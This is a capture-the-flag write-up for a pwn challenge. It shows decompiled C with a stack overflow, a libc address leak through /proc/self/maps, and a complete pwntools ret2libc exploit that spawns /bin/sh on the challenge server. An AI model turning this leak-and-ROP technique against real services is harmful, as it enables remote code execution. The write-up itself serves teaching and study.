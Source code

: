 # File info 

![](images/info.png)

From which we can see the file is normal ELF, the stack is not executable and it's Position Independent.
We are also given a libc.so.6 file , before continuing we think of ret2libc attack. For this we might use *pwninit* to initialize the elf with the given libc version


# Code Analysis 

First looking at the functions there is a *win()* function but it does nothing.
The main:

```C

undefined8 main(void)

{
  size_t sVar1;
  char *pcVar2;
  char local_78 [100];
  int local_14;
  FILE *local_10;
  
  setup();
  while( true ) {
    printf("give me file to read: ");
    read(0,local_78,0x100);
    sVar1 = strcspn(local_78,"\n");
    local_78[sVar1] = '\0';
    pcVar2 = strstr(local_78,"flag");
    if (pcVar2 != (char *)0x0) {
      puts("can\'t read this file ");
      return 1;
    }
    local_10 = fopen(local_78,"r");
    if (local_10 == (FILE *)0x0) break;
    while (local_14 = fgetc(local_10), local_14 != -1) {
      putchar(local_14);
    }
  }
  puts("can\'t open this file ");
  return 1;
}
```

This code prompts the user to input a filename, checks if the filename contains "flag" (denying access if true), and attempts to open and display the file's contents character by character. If the file can't be opened, it prints an error message and exits. It loops indefinitely, continually asking for files to read unless there’s an error.

**strcspn** is a C standard library function that searches for the first occurrence of any character from a specified set of characters in a given string and returns the number of characters before this first occurrence.
**strstr** is a C standard library function that searches for the first occurrence of a substring in a given string.

conclustion: we can't read the file containing flag in it , now lets think why we are given a libc ? 
clearly there is no room to leak any address here, so we cant directly leak libc address 

# Interesting Files 

### side note 
From previous experience in a CTF, I needed to read the environment variables where the flag was, but the vuln was LFI 
so searching for that I found /proc/self/environ which yields the environemnt variables 
note that the *self* here points to the current process ID. 

If you are familiar with gdb-pwndbg you must know that we can get the addresses of the process using vmmap command : 

![](images/vmmap.png)

and there is a file that yields exact same result which is **/proc/self/maps** 
so we will use it as input : 


![](images/proc.png)
and here is our libc address 


# Exploit 

1- We need to calculate the padding until rsp and that would be 120 using cyclic and pwndbg .
![](images/cyclic.png)
2- Extracting the libc address from /proc/self/maps using some for of regex. 
3- Using ROP() .

```python
#!/usr/bin/env python3
from pwn import *

exe = ELF("./reader_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.39.so")
context.binary = exe

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("3.255.127.32",30118)
    return r

def main():
    r = conn()
  

   
    r.sendline(b'/proc/self/maps')

    sleep(2) # so that all the content of /proc/self/maps load

    r.recvuntil(b'give me file to read: ')  

    
    maps_content = r.recv()

    
    maps_content = maps_content.decode('utf-8', errors='ignore')

    
    match = re.search(r'^([0-9a-f]+)-[0-9a-f]+ .*libc\.so\.6$', maps_content, re.MULTILINE)  # regex to get libc address 
    if match:
        libc_base = int(match.group(1), 16)
        print(f"libc base address: 0x{libc_base:x}")
        
        
        libc.address = libc_base
        

        
    else:
        print("Could not find libc base address")
        exit(0)

    libc.address = libc_base

    rop = ROP(libc)  # instead of searching for the gadgets manually

    SYSTEM = libc.sym['system']
    BINSH = next(libc.search(b"/bin/sh\x00"))

    payload = flat ({ 
            120 : [
                rop.ret.address,
                rop.rdi.address,
                BINSH,
                SYSTEM]})

    r.sendline(payload)
    r.interactive()

if __name__ == "__main__":
    main()
    ```




